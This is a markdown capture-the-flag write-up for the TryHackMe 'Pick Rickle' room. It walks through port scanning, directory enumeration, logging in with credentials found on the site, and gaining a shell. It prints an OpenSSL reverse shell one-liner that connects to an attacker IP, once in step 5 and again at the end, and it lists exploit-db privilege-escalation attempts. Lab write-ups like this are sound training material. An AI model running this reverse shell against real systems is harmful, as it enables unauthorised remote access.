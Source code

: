 # Simple CTF

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- 


---

1.  Nmap Scan

    We'll scan the IP to see what services are running, first, let's visit the website.

    ![](img/picklerick01.png)

2. Website 

    After visiting the website, we can't see anything that gives out any clues or ingridient.

    After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

    ![](img/picklerick02.png)

    After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

    ![](img/picklerick03.png)

3. gobuster & dirbuster

    I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.

    
    ![](img/picklerick04.png)

    The `robots.txt` file has a wierd text, i'll save it for later maybe: 

    ![](img/picklerick05.png)

    After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

    ![](img/picklerick06.png)

4. Web login

    We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

    ![](img/picklerick07.png)

    And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

    ![](img/picklerick08.png)

5. Reverse Shell access

    Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
    `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

    ![](img/picklerick09.png)

    As we can see we've got access to the machine:

    ![](img/picklerick10.png)

6. First Flag

    We can see that there is a .txt file, if we cat that we can see the first flag:

    ![](img/picklerick11.png)

7. Second Flag

    After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

    ![](img/picklerick12.png)




8. Privilege Escalation

    uname -a:

    ![](img/picklerick13.png)


    Unsuccessfull attempts:

    https://www.exploit-db.com/exploits/41457 Not woking
    https://www.exploit-db.com/exploits/47169 Not woking
    https://www.exploit-db.com/exploits/44298 Not woking
    





R1ckRul3s
Wubbalubbadubdub

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s